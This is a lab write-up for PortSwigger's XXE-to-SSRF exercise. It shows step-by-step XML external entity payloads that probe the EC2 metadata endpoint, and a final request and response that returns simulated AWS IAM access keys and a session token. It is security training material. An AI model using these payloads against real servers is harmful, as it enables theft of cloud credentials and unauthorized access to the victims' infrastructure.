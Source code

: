 # Exploiting XXE to perform SSRF attacks

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

## Definition
Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they can be used to perform server-side request forgery (SSRF). This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

To exploit an XXE vulnerability to perform an SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks (which can still have critical consequences).

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Notes
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

**Original XML request**
```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>4</productId><storeId>1</storeId></stockCheck>
```

**XXE Payloads**

*Attempt 1*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [<!ENTITY pwn SYSTEM "http://169.254.169.254">]>
<stockCheck><productId>&pwn;</productId><storeId>1</storeId></stockCheck>
```

*Response*
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 28

"Invalid product ID: latest"
```

*Attempt 2*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [<!ENTITY pwn SYSTEM "http://169.254.169.254/latest">]>
<stockCheck><productId>&pwn;</productId><storeId>1</storeId></stockCheck>
```

*Response*
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 28

"Invalid product ID: meta-data"
```

*Attempt 3*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [<!ENTITY pwn SYSTEM "http://169.254.169.254/latest/meta-data">]>
<stockCheck><productId>&pwn;</productId><storeId>1</storeId></stockCheck>
```

*Response*
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 28

"Invalid product ID: iam"
```

*Final Attempt*
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE vuln [<!ENTITY pwn SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&pwn;</productId><storeId>1</storeId></stockCheck>
```

*Response*
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 552

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2022-05-18T17:36:37.824274741Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ktSvLUrMsAzXPy6xpJ03",
  "SecretAccessKey" : "wwZLlNrB5LA6KpmdwovRnbXE6hqGTpLAwzCRggOy",
  "Token" : "1OVbrB1EHLdCKUWPAVvk1XWIWBqEXr4YiaOHrROrE3lyZeZNvcKtnYXHSdK9odWMIukBnCY8bWVz1UWWImJipCrmSNvYeh5GeCDi41xiKPH2nOP7pPp8MCxcxaQDK73uwAPG3aCviZ8kPJjjkEagNRUwjynCFq6JuCeBKiKcwtedTuNTCIIM60sCwo88exUD8Po6wvvbpcsppP6Gu3ixe4UsGQ9f8OGiuW41j4jbFzfi7B5s9aAAhHYGZ8h63MDK",
  "Expiration" : "2028-05-16T17:36:37.824274741Z"
}"
```

## Key Words
> xml, xxe, ssrf, aws, ec2, secrets